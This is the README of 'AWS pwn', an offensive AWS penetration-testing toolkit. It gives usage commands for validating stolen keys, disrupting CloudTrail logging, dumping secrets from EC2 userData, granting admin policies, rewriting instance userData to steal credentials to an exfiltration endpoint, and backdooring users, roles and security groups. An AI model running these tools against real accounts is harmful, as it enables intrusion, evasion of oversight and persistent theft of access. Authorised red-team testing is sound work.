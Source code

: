 # AWS pwn

## Summary

This is a collection of horribly written scripts for performing various tasks related to penetration testing AWS. Please don't be sad if it doesn't work for you. It might be that AWS has changed since a given tool was written or it might be that the code sux. Either way, please feel free to contribute.

Most of this junk was written by Daniel Grzelak but there's been plenty of contributions, most notably Mike Fuller.

## Requirements

```
pip install -r requirements.txt
```

Make sure to also [set up your aws credentials](https://github.com/boto/boto3#quick-start) in `~/.aws/credentials`.

## Reconnaissance

Things to do with pre-compromise information gathering.

* validate_iam_access_keys.py - Given a TSV file of access key + secret [+ session] combinations, checks access validity and returns identity information of the principal.
```
./validate_iam_access_keys.py -i /tmp/keys.txt -o /tmp/out.json
```
* validate_s3_buckets.py - Given a text file with one word per line, checks whether the buckets exist and returns basic identifying information.
```
./validate_s3_buckets.py -i /tmp/words.txt -o /tmp/out.json
```
* validate_iam_principals.py - Given a text file of principals (e.g. user/admin, role/deploy), checks whether the principals exist in a given account. 
```
./validate_iam_principals.py -a 123456789012 -i /tmp/words.txt -o /tmp/out.json
```
* validate_accounts.py - Given a text file of account ids and account aliases, checks whether the accounts exist.
```
./validate_accounts.py -i /tmp/accounts.txt -o /tmp/out.json
```

## Exploitation

Things that will help you gain a foothold in an account.

## Stealth

Things that might help you stay hidden after compromising an account.

* disrupt_cloudtrail.py - Attempts to disrupt/cripple cloudtrail logging in the specified way.
```
./disrupt_cloudtrail.py -s
```

## Exploration

Things to help you understand what you've pwned.

* dump_account_data.sh - Calls a bunch of generic account-based read/list/get/describe functions and saves the data to a given location. Very noisy but great for a point in time snapshot.
```
./dump_account_data.sh /tmp/
```

## Elevation

Things to help you move around an account and gather different levels of access.

* dump_instance_attributes.py - Goes through every EC2 instance in the account and retrieves the specified instance attributes. Most commonly used to retrieve userData, which tends to contain secrets.
```
./dump_instance_attributes.py -u -o /tmp/
```
* dump_cloudformation_stack_descriptions.py - Retrieves the stack descriptions for every existing stack and every stack deleted in the last 90 days. Parameters in stack descriptions often contain passwords and other secrets.
```
./dump_cloudformation_stack_descriptions.py -o /tmp/data
```
* assume_roles.py - Attempts to assume all roles (ARNs) in a file or provided by the list-roles API.
```
./assume_roles.py -o /tmp/out.json
```
* add_iam_policy - Adds the administrator and all action policy to a given user, role, or group. Requires IAM putPolicy or attachPolicy privileges.
```
./add_iam_policy.py -u myuser -r myrole -g mygroup
```
* bouncy_bouncy_cloudy_cloud - Bounces a given ec2 instance and rewrites its userData so that you can run arbirtary code or steal temporary instance profile credentials.
```
./bouncy_bouncy_cloudy_cloud.py -i instance-id -e exfiltration-endpoint
```

## Persistence

Things to help maintain your access to an acccount.

* rabbit_lambda - An example Lambda function that responds to user delete events by creating more copies of the deleted user.
* cli_lambda - A lambda function that acts as an aws cli proxy and doesnt require credentials.
* backdoor_created_users_lambda - A lambda function that adds an access key to each newly created user.
* backdoor_created_roles_lambda - A lambda function that adds a trust relationship to each newly created role.
* backdoor_created_security_groups_lambda - A lambda function that adds a given inbound access rule to each newly created security group.
* backdoor_all_users.py - Adds an access key to every user in the account.
* backdoor_all_roles.py - Adds a trust relationship to each role in the account. Requires editing the file to set the role ARN.
* backdoor_all_security_groups.py - Adds a given inbound access rule to each security group in the account. Requires editing the file to set the rule.

## Exfiltration

Things to help you extract and move data around in AWSy ways.

* dynamodump - https://github.com/bchew/dynamodump


## Miscellanea

Other things that I was either to stupid or too lazy to classify.

* reserved_words.txt - A list of words/tokens that have some special meaning in AWS or are likely to soon have some special meaning.
* endpoints.txt - A somewhat up to date list of API endpoints exposed by AWS.
* integrations.txt - A TSV of services that integrate with AWS via roles or access keys and their account ids, default usernames etc.
* download_docs.sh - The command line to wget all the AWS docs because I'm stupid and waste time redoing it every time.

## To do

* Add passwords to users for persistence
* Dump stack resources
* Validate mfa
* Add more calls to dump_account_data
* Add more log disruption methods
* Create a cloudtrail parsing script for grabbing goodies out of cloudtrail
* Create an s3 bucket permission enumerator
* Create tool to grab aws credentials from common places on disk
* Create cloning tool
* Create silly privelege escalation tool that uses passrole
* Validate queues
* Validate notification topics
* Fix up persistence scripts to use arguments instead of constants inside the scripts
* 


lalalallaa
